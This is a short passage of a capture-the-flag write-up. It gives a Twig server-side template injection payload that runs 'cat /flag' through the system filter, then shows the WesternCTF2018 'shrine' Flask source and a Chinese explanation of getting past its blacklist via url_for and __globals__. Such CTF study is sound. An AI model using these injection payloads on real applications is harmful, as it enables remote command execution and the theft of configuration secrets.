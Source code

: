 

`{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("cat /flag")}}`

## [WesternCTF2018]shrine



```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

黑名单是self和config，python还有一个函数叫做url_for，其作用是url是用于构建指定函数的URL，在配合**globals()**，该函数会以字典类型返回当前位置的全部全局变量。这样也可以实现查看的效果

![image-20220110200730870](README/image-20220110200730870.png)
